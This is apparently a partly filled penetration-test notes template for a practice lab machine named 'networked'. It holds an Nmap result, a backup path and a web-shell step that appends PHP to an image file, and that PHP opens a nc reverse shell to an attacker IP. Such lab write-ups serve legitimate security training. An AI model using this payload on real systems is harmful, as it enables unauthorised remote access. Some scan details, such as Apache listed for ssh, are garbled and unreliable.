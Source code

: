 # Summary
# Location
- IP Address: 10.129.8.104
## System Information
- OS: 
- Kernal:
- Hostname: networked
- DomainName: 
- Domain Sid: 
- DNS: 
## Vulnerabilities & Attack Vectors
- Exploit 1
- Exploit 2
- Exploit 3
## Post Exploitation
- Proof
## Credentials
### OS
- uri:
- username:
- password:

## System Setup
- ICMP: Enalbed/Disabled
- Firewall: Enabled/Disabled. Will respond to ICMP?
- Essential Services: XXX (TCP XXX)
- Platform:

## Notes

# Service Enumeration
## Port Scan (Nmap)
PORT    STATE  SERVICE  VERSION
22/tcp  open   ssh      Apache 2.4.6
80/tcp  open   http
443/tcp closed https

## Key Infomation
The Nmap version scan identifies an interesting potential entrypoint, in this case, we should focus on th

Apache 2.4.6
PHP 5.4.16

find backup.tar under http://10.129.8.104/backup/

cp image8.png shell.php.png
echo '<?php' >> ./shell.php.png
echo 'passthru("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.4 4444 >/tmp/f");' >> ./shell.php.png
echo '?>' >> ./shell.php.png

# Exploitation
## Exploit 1
- Title: 
- CVE: 
- EBD-ID: 
- Link: 

## Exploit 2
- Title: 
- CVE:
- EBD-ID: 
- Link: 

## Exploit 3
- Title:
- CVE:
- Link:
